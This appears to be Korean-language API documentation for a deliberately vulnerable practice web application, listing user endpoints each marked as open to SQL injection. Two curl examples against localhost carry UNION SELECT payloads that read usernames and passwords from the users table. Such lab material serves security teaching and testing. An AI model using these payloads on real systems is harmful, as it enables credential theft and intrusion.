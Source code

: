 ### POST /api/v1/users/register
**취약점**: SQL 인젝션

새 사용자를 등록합니다.

**요청**:
```json
{
  "username": "newuser",
  "password": "password123",
  "email": "user@example.com"
}
```

**응답**:
```json
{
  "메시지": "사용자가 성공적으로 등록되었습니다"
}
```

### GET /api/v1/users/profile/{user_id}
**취약점**: SQL 인젝션

사용자 프로필 정보를 조회합니다.

**SQL 인젝션 예시**:
```bash
curl "http://localhost:8000/api/v1/users/profile/1' UNION SELECT username,password,email FROM users--"
```

**응답**:
```json
{
  "사용자명": "admin",
  "이메일": "admin@example.com",
  "생성일시": "2024-01-01T00:00:00"
}
```

### GET /api/v1/users/search?q=query
**취약점**: SQL 인젝션

사용자를 검색합니다.

**SQL 인젝션 페이로드**:
```bash
curl "http://localhost:8000/api/v1/users/search?q=' UNION SELECT username,password FROM users--"
```

**응답**:
```json
{
  "사용자_목록": [
    {
      "사용자명": "admin",
      "이메일": "admin@example.com"
    }
  ]
}
```

---